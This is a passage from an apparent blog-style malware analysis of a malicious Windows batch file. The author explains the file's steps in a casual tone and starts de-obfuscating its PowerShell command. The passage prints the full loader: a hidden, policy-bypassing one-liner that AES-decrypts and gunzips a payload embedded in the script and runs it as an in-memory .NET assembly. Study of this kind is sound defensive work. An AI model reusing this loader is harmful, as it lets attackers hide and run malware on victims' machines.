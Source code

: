 ```txt
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eaqcw = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($VtoBl in $eaqcw) { if ($VtoBl.StartsWith(':: ')) {  $BMjJe = $VtoBl.Substring(3); break; }; };$VGGCQ = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($BMjJe);$hbvqO = New-Object System.Security.Cryptography.AesManaged;$hbvqO.Mode = [System.Security.Cryptography.CipherMode]::CBC;$hbvqO.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$hbvqO.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('wYPqphQqHyVIeW2CaPqkTUCy/0ecJs6agKij7Q3HRY4=');$hbvqO.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('E55hmIoW8UIQx1ajzTvfAA==');$CfOAS = $hbvqO.CreateDecryptor();$VGGCQ = $CfOAS.TransformFinalBlock($VGGCQ, 0, $VGGCQ.Length);$CfOAS.Dispose();$hbvqO.Dispose();$YVjlv = New-Object System.IO.MemoryStream(, $VGGCQ);$iJFSw = New-Object System.IO.MemoryStream;$uwkaq = New-Object System.IO.Compression.GZipStream($YVjlv, [IO.Compression.CompressionMode]::Decompress);$uwkaq.CopyTo($iJFSw);$uwkaq.Dispose();$YVjlv.Dispose();$iJFSw.Dispose();$VGGCQ = $iJFSw.ToArray();$WtHIs = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($VGGCQ);$iFZWS = $WtHIs.EntryPoint;$iFZWS.Invoke($null, (, [string[]] ('%*')))
exit /b
```

Let's try and understand this script line by line... just like an interpreter 😉

- `@echo off` prevents the prompt and contents of the batch file from being displayed, so that only the output is visible. The `@` makes the output of the `echo off` command hidden as well. If you are into bad things or preventing bad things to happen - this is like a defacto starting command for all batch scripts.

- `net file` without any extra argumnents this displays all the open shared files on a server and the lock-ids (if any). I'm not completely sure why this is used but anyways

- Then it checks `errorlevel`, it is not `0` then it'll run some powershell command. I'm not very good with windows and it's tools at this point but it is very clear that is executing something with `-ep bypass` to prevent any warnings or prompts. *[Sus](https://www.urbandictionary.com/define.php?term=sus) it is, isn't it?*

- After changing directory (where it can put all his mess, without being sus), it copies the powershell binary and saves it with another name.

- Clears the screen to remove all the output generated. Above tasks will be in a flash and you probably will just see a blink on terminal if you have [Veronica Seider’s Super Power](https://duckduckgo.com/?q=Veronica+Seider%27s+Super+Power+wikipedia&ia=web). *Bad Joke, I know.*


- Eventually, it'll use the copied & renamed powershell to run some **`-command`** with `-ep bypass` flag. After a bit of google-fu I got to know about few common techniques used to bypass powershell execution policy. I found [this blog](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) [^1] concise and helpful for the same topic.

[^1]: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/


#### de-obfuscating powershell

I copied the powershell **`-command`** to another file, just to make more sense of it. And it looked better than before.

```ps1
$eaqcw = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);

foreach ($VtoBl in $eaqcw) { 
    if ($VtoBl.StartsWith(':: ')) {
        $BMjJe = $VtoBl.Substring(3);
        break; 
    }; 
};
$VGGCQ = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($BMjJe);
$hbvqO = New-Object System.Security.Cryptography.AesManaged;
$hbvqO.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$hbvqO.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$hbvqO.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('wYPqphQqHyVIeW2CaPqkTUCy/0ecJs6agKij7Q3HRY4=');
$hbvqO.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('E55hmIoW8UIQx1ajzTvfAA==');
```

[^2]: https://www.offensive-security.com/offsec/powershell-obfuscation/
[^3]: https://rada.re/n/radare2.html